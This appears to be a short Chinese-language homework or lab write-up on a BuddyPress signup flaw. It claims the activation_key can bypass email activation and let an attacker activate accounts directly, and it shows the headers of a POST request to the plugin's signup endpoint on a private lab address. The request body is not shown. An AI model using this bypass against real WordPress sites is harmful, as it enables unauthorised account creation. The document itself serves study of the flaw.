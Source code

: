 ![1747885509307](image/homework/1747885509307.png)

这里通过使用activation_key能够绕过邮箱激活链接，使攻击者能够直接激活账户

![1747885599121](image/homework/1747885599121.png)

---
```
POST /wp-json/buddypress/v1/signup HTTP/1.1

Host: 192.168.20.12:10459

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0

Accept: */*

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Content-Type: application/json; charset=UTF-8
```